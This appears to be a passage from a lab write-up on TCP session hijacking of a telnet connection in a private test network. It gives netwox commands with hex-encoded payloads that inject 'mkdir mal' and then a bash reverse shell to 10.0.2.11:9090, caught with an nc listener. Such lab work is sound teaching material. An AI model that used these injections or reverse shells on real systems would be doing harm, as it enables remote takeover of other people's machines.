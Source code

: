 ```sysctl -w net.ipv4.tcp_syncookies=0```
On the attacker machine, use the command
```netwox 40 --ip4-src 10.0.2.10 --ip4-dst 10.0.2.12 --tcp-src 58554 --tcp-dst 23 --tcp-seqnum 3627093980 --tcp-acknum 2862022353 --tcp-ack --tcp-psh --tcp-data "0d006d6b646972206d616c0d00"```

In the tcp-data, the command passed is '\rmkdir mal\r'
Thus, it creates a folder called 'mal' in the current working directory of the client.

Change the sequence number and acknownledgement number accordingly. The above sequence number is simply greater than the sequence number of the last packet from the client to server. And ack no is same as the ack number of the last packet from client to server.

Then as soon as the client tries to type any command after injecting the above crafted packet, the session gets hijacked and the command injected gets executed.

We can verify that the folder 'mal' has been created on the server.

## Creating Reverse Shell using TCP Session Hijacking

Establish a telnet connection from client to server. 

First run 
```nc -l 9090 -v```
on the attacker machine.

Then in the attacker machine itself, use the command

```netwox 40 --ip4-src 10.0.2.10 --ip4-dst 10.0.2.12 --tcp-src 58554 --tcp-dst 23 --tcp-seqnum 3627093980 --tcp-acknum 2862022353 --tcp-ack --tcp-psh --tcp-data "0d002f62696e2f62617368202d69203e202f6465762f7463702f31302e302e322e31312f3930393020303c263120323e26310d00"```

In the tcp-data, the command passed is ```'\r/bin/bash -i > /dev/tcp/10.0.2.11/9090 0<&1 2>&1\r'```

With this, the server spawns a shell on 10.0.2.11 (attacker), at port 9090. Our netcat catches the connection and thus brings up a shell on the attacker machine.

Make sure the sequence no is just one greater than the seqnum of the telnet client.

---
## Thank you
